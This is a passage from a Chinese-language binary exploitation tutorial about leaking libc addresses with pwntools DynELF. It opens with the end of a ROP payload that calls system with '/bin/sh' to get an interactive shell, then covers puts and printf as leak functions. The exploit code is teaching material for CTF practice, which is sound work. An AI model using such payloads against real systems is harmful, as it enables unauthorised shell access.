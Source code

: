 ```python
payload += p32(bss_addr)
payload += p32(8)
payload += p32(system_addr)
payload += p32(vuln_addr)
payload += p32(bss_addr)

io.send(payload)
io.send('/bin/sh\x00')
io.interactive()
```

该题除了这里使用 DynELF 的方法，在后面章节 6.3 中，还会介绍一种使用 ret2dl-resolve 的解法。

### puts

```C
#include <stdio.h>

int puts(const char *s);
```

puts 函数使用的参数只有一个，即需要输出的数据的起始地址，它会一直输出直到遇到 `\x00`，所以它输出的数据长度是不容易控制的，我们无法预料到零字符会出现在哪里，截止后，puts 还会自动在末尾加上换行符 `\n`。该函数的优点是在 64 位程序中也可以很方便地使用。缺点是会受到零字符截断的影响，在写 leak 函数时需要特殊处理，在打印出的数据中正确地筛选我们需要的部分，如果打印出了空字符串，则要手动赋值`\x00`，包括我们在 dump 内存的时候，也常常受这个问题的困扰，可以参考章节 6.1 dump 内存的部分。

所以我们常常需要这样做：

```python
data = io.recv()[:-1]   # 去掉末尾\n
if not data:
    data = '\x00'
else:
    data = data[:4]
```

这只是个例子，还是要具体情况具体分析。

### printf

```C
#include <stdio.h>

int printf(const char *format, ...);
```

该函数常用于在格式化字符串中泄露内存，和 puts 差不多，也受到 `\x00` 的影响，只是没有在末尾自动添加 `\n`。而且还有个问题要注意，为了防止 printf 的 `%s` 被 `\x00` 截断，需要对格式化字符串做一些改变。更详细的内容请参考章节 6.2。

## 参考资料

- [Resolving remote functions using leaks](https://docs.pwntools.com/en/stable/dynelf.html)
- [Finding Function's Load Address](http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html)
- [借助DynELF实现无libc的漏洞利用小结](http://bobao.360.cn/learning/detail/3298.html)
